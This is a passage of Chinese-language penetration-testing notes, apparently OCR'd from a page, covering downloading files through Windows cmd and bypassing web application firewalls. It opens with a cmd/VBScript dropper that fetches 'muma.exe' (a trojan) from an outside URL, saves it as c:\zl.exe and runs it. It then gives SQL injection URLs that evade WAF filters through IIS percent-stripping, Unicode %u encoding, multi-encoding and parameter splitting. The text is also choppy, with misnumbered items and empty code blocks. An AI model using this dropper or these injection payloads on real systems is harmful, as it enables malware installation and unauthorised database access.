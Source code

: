 ```php
```
十，技术
windons cmd 中下载文件(下载nc)
```
echo Set Post = CreateObject("Msxml2.XMLHTTP") >>zl.vbs
echo Set Shell = CreateObject("Wscript.Shell") >>zl.vbs
echo Post.Open "GET","http://www.jbzj.com/muma.exe",0 >>zl.vbs //网站
echo Post.Send() >>zl.vbs
echo Set aGet = CreateObject("ADODB.Stream") >>zl.vbs
echo aGet.Mode = 3 >>zl.vbs
echo aGet.Type = 1 >>zl.vbs
echo aGet.Open() >>zl.vbs
echo aGet.Write(Post.responseBody) >>zl.vbs
echo aGet.SaveToFile "c:\zl.exe",2 >>zl.vbs //保存的位置
echo wscript.sleep 1000 >>zl.vbs
echo Shell.Run ("c:\zl.exe") >>zl.vbs
```
### WAF绕过
#### WAF(Web应用防火墙，Web Application Firewall的简称)是通过执行一系列针对HTTP/HTTPS的安全策略来专门为Web应用提供保护的产品。WAF可以发现和拦截各类Web层面的攻击，记录攻击日志，实时预警提醒，在Web应用本身存在缺陷的情况下保障其安全。

##### 一、	攻击者可利用哪些方面来绕过WAF？

##### Web容器的特性
1.在IIS+ASP的环境中，对于URL请求的参数值中的%，如果和后面的字符构成的字符串在URL编码表之外，ASP脚本处理时会将其忽略。这个特性仅在iis+asp上 asp.net并不存在
```
http://www.test.com/1.asp?id=1 union all se%lect 1,2,3,4 fro%m adm%in
```
2.在WAF层，获取到的id参数值为1 union all se%lect 1,2,3,4 fro%m adm%in，此时waf因为%的分隔，无法检测出关键字 select from等
<br> 但是因为IIS的特性，id获取的实际参数就变为1 union all select 1,2,3,4 from admin，从而绕过了waf。
<br>2.IIS支持Unicode编码字符的解析，但是某些WAF却不一定具备这种能力。
```
http://www.test.com/1.asp?id=1 union all %u0053elect 1,2,3,4 %u0066rom admin
```

4.根据WAF的不同，一般会同时分开检查id=123和id=456，也有的仅可能取其中一个进行检测
##### Web应用层的问题 -1
5. 多重编码问题
### 如果Web应用程序能够接收多重编码的数据，而WAF只能解码一层(或少于WEB应用程序能接收的层数)时，WAF会因为解码不完全导致防御机制被绕过。
##### WAF存在某些机制，不处理和拦截白名单中的请求数据：


<br> 4.某些WAF无法全面支持GET、POST、Cookie等各类请求包的检测，当GET请求的攻击数据包无法绕过时，转换成POST可能就绕过去了。或者，POST以Content-Type: application/x-www-form-urlencoded无法绕过时，转换成上传包格式的Content-Type: multipart/form-data就能够绕过去。
<br> 5.某些WAF在对HTTP请求数据包中的参数进行检测时，使用&字符对多个参数进行分割，然后分别进行检测，如：
```
http://xx.com/id.php?a=1&b=2&c=3
```

这些WAF会使用&符号分割par1、par2和par3，然后对其参数值进行检测。但是，如果遇到这种构造：
```
http://xx.com/id.php?a=1 select/*&b=2*/1,2,3 /*&c=3*/from adim

```
WAF会将以上参数分割成如下3部分：
```
a=*/select/*
b=2*/1,2,3 /*
c=*/from admin
```
当攻击者提交的参数值中存在大量干扰数据时，如大量空格、TAB、换行、%0c、注释等，WAF需要对其进行清洗，筛选出真实的攻击数据进行检测，以提高检查性能，节省资源。
1.数据提取方式存在缺陷，导致WAF被绕过的实例。
```
```